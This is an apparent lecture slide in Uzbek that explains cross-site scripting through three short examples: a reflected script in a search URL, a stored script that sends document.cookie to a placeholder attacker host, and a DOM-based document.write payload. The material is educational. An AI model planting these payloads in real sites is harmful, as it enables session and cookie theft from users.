

# Cross-Site Scripting (XSS)
Web tizim taqdim etayotgan sahifaga "zarar beruvchi kod"ni joylash va uni web-serverda ishga tushurishga asoslangan hujum turi.
Doimiy bo'lmagan hujum:
	http://example.com/search.php?q=<script>DoSomething();</script>
	Bunda dasturchi "<" va ">" belgilarni "&lt;" va "&gt;" ko'rinishiga o'tkazishni unutgan bo'lsa 	sahifada script bajariladi.
Doimiy bo'lgan hujum:
	<script>
	document.location="http://attackerhost.example/cgi-bin/cookiesteal.cgi?"+document.cookie
	</script>
	Web-sahifadagi cookie hujum qilganning oldindan tayyorlab qo'ygan manziliga jo'natiladi.
DOM modellarga asoslangan hujum:
	<body>
	<script>document.write(location.href);</script>
	</body>
	HTML yoki XML hujjatning strukturasi yoki matnini o'zgartirish orqali amalga oshiriladi.